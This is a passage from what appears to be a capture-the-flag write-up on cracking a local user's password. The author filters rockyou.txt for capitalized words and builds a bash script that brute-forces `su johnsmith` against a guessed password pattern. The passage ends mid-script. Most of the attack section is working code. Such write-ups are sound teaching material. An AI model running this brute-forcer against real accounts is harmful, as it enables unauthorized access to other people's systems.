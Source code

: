 it would be a fair assumption that this guy using a similar password for user account, so let's assume password format is;

```
PrettyS3cure[A-Z][a-z]+Password123.
```

Let's grep rockyou.txt for capitalized words;

```
cat rockyou.txt | grep -E ^[A-Z][a-z]+$ > capitalized_words.txt
wc -l capitalized_words.txt
```

```
89652 capitalized_words.txt
```

### Bruteforcing `su`

Now we need to find a way to brute force johnsmith's password, problem is ssh is `publickey` only so we have to use `su`. We might use [sucrack](http://www.leidecker.info/projects/sucrack.shtml) but it is easy enough to script it so let's go with scripting;

First we need to find a way to pass the password to `su`, a little bit of googling takes us to [https://stackoverflow.com/a/38741462](https://stackoverflow.com/a/38741462) so running;

```bash
( sleep 0.2s && echo <password> ) | script -qc 'su johnsmith -c "id"' /dev/null)
```

produce `su: Authentication failure` if password is wrong.

So we write our `su_brute_force.sh`;

```bash
#!/bin/bash

set -m #enable job control
export TOP_PID=$$ #get the current PID
trap "trap - SIGTERM && kill -- -$$" INT SIGINT SIGTERM EXIT #exit on trap

# https://github.com/fearside/ProgressBar/blob/master/progressbar.sh
# something to look at while waiting
function progressbar {
        let _progress=(${1}*100/${2}*100)/100
        let _done=(${_progress}*4)/10
        let _left=40-$_done

        _done=$(printf "%${_done}s")
        _left=$(printf "%${_left}s")

        printf "\rCracking : [${_done// /#}${_left// /-}] ${_progress}%%"
}

function brute() {
        keyword=$1 #get the word
        password="PrettyS3cure${keyword}Password123." #add it to our format
        output=$( ( sleep 0.2s && echo $password ) | script -qc 'su johnsmith -c "id"' /dev/null) # check the password
        if [[ $output != *"Authentication failure"* ]]; then #if password was correct
                printf "\rCreds Found! johnsmith:$password\n$output\nbye..." #print the password
                kill -9 -$(ps -o pgid= $TOP_PID  | grep -o '[0-9]*') #kill parent and other jobs
        fi
}

wordlist=$1 #get wordlist as parameter

count=$(wc -l $wordlist| grep -o '[0-9]*') #count how many words we have
current=1
```